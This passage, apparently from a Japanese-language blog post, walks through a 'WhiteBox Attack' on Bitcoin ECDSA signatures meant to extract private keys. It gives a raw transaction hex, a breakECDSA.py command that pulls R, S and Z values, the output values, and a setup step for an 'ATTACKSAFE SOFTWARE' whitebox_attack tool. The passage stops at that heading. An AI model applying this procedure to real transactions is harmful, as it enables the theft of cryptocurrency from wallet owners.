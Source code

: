 
<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-35-1024x144.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1624"/></figure>



<pre class="wp-block-code"><code>RawTX = 01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000
</code></pre>



<h2>ここで、すべての脆弱なトランザクションからすべての R、S、Z 値を取得する必要があります</h2>



<p>breakECDSA.py スクリプトを使用してみましょう</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-36-1024x303.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1626"/></figure>



<pre class="wp-block-code"><code>R = 0xdd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc8
S = 0x6a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e42103
Z = 0xe3836edb5789a3be19cb8b0c9bc8cb1ae2fd58c30d745ae34ceac35c20c0c21c</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>脆弱な ECDSA 署名トランザクションから秘密鍵を取得するために、データを<code>RawTX</code>テキスト ドキュメントに追加してファイルとして保存しましょう<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool whitebox_attack</code>ソフトウェアを使用して起動する<code>“ATTACKSAFE SOFTWARE”</code></h2>

